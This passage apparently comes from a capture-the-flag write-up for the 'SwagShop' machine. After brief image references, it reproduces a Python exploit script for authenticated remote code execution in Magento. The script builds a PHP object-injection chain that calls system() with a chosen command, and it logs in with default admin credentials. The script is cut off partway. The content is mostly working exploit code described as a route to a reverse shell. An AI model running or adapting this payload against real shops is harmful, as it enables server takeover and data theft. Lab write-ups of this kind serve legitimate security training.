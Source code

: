 ![AdminPage](/SwagShop/AdminPage.png)
![CodeExploit](/SwagShop/CodeExploit.png)
##### [Figure 1.3 - Code exploit get admin page ] 

In this page is the code for the executable needed to get a reverse shell going from the admin page.

```bat
    from hashlib import md5
    import sys
    import re
    import base64
    import mechanize


    def usage():
        print "Usage: python %s <target> <argument>\nExample: python %s http://localhost \"uname -a\""
        sys.exit()


    if len(sys.argv) != 3:
        usage()

    # Command-line args
    target = sys.argv[1]
    arg = sys.argv[2]

    # Config.
    username = 'admin'
    password = 'admin'
    php_function = 'system'  # Note: we can only pass 1 argument to the function
    install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml

    # POP chain to pivot into call_user_exec
    payload = 'O:8:\"Zend_Log\":1:{s:11:\"\00*\00_writers\";a:2:{i:0;O:20:\"Zend_Log_Writer_Mail\":4:{s:16:' \
            '\"\00*\00_eventsToMail\";a:3:{i:0;s:11:\"EXTERMINATE\";i:1;s:12:\"EXTERMINATE!\";i:2;s:15:\"' \
            'EXTERMINATE!!!!\";}s:22:\"\00*\00_subjectPrependText\";N;s:10:\"\00*\00_layout\";O:23:\"'     \
            'Zend_Config_Writer_Yaml\":3:{s:15:\"\00*\00_yamlEncoder\";s:%d:\"%s\";s:17:\"\00*\00'     \
            '_loadedSection\";N;s:10:\"\00*\00_config\";O:13:\"Varien_Object\":1:{s:8:\"\00*\00_data\"' \
            ';s:%d:\"%s\";}}s:8:\"\00*\00_mail\";O:9:\"Zend_Mail\":0:{}}i:1;i:2;}}' % (len(php_function), php_function,
                                                                                        len(arg), arg)
    # Setup the mechanize browser and options
    br = mechanize.Browser()
    #br.set_proxies({"http": "localhost:8080"})
    br.set_handle_robots(False)

    request = br.open(target)

    br.select_form(nr=0)
    br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
    br.form.fixup()
    br['login[username]'] = username
    br['login[password]'] = password
```